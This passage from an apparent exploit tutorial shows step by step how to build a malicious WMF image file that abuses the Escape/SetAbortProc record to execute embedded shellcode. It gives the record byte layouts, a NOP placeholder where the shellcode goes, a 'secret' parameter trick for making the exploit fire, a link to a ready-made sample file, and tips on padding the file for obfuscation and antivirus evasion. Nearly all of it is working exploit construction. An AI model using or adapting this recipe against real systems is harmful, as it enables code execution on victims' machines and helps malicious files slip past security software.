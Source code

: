 ### 3/ Escape()

Now we need to call the escape function of course!

```
DWORD Size
WORD Function Code
WORD Parameter
```
->
```
0400 0000
26FF (alternatives: 0x0026, 0x0626)
0900 (9 is the value used to trigger the SetAbortProc function)
```

### 4/ shellcode

or the moment we'll just put a series of NOPs:
``9090909090909090909090909090909090909090`

### 5/ standard records

We actually don't need to include more records (they are usually added for obfuscation sake)

### 6/ footer

The footer is a standard record of size 3, function code 0 and no parameter:
```
0300 0000
0000
```

Our file is now 104 bytes big (68h) (the minimum size for an exploit is 64 bytes)

Now if we try this, nothing happens!

The **SECRET** is, for each function, add randomly 4 or 5 parameters with values between 00 and FF!

Open [this file](https://web.archive.org/web/20140214160834/http://www.osix.net/modules/folder/index.php?tid=10894&action=vf) in an hexadecimal editor.
(because of some upload problems I had to save them as .txt - replace the extension by .wmf)


- You will find the 18 bytes header
- The function 02FA of size 00000008 and with 5 parameters
- then the function 041B of size 00000007 and with 4 parameters
- then you find the unavoidable Escape function: 0400000026000900
- our shell code which does nothing (but is actually executed!)
- and finally the footer (which is a standard record but with no function code, size fixed to 3 and no parameter)

That's it! you could add more GDI functions before the Escape and more functions after the shellcode,
but it is only used for obfuscation. (and maybe to fool some anti-virus?)
(see o'reilly documentation to find more function codes)
